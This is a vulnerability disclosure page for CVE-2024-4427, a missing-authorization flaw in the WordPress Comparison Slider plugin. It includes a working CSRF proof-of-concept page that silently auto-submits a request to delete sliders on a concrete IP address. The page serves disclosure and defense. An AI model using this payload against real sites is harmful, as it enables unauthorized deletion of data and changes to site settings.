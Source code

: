 ```yaml
---
layout: page
title: CVE-2024-4427
subtitle: Comparison Slider <= 1.0.5 - Missing Authorization
---
```

## Description
The Comparison Slider plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on several AJAX actions in all versions up to, and including, 1.0.5. This makes it possible for authenticated attackers, with subscriber access or above, to change plugin settings and perform other actions such deleting sliders.

## Severity
  4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.5

## PoC :
```
Use this csrf & using subscriber account

<html>
  <!-- Made by eneriiiii<3 / twitter.com/ener1_ -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="mod" value="comparison" />
      <input type="hidden" name="action" value="removeGroup" />
      <input type="hidden" name="listIds&#91;&#93;" value="1" />
      <input type="hidden" name="pl" value="ics" />
      <input type="hidden" name="reqType" value="ajax" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/comparison-slider/comparison-slider-105-missing-authorization
- https://www.cve.org/CVERecord?id=CVE-2024-4427






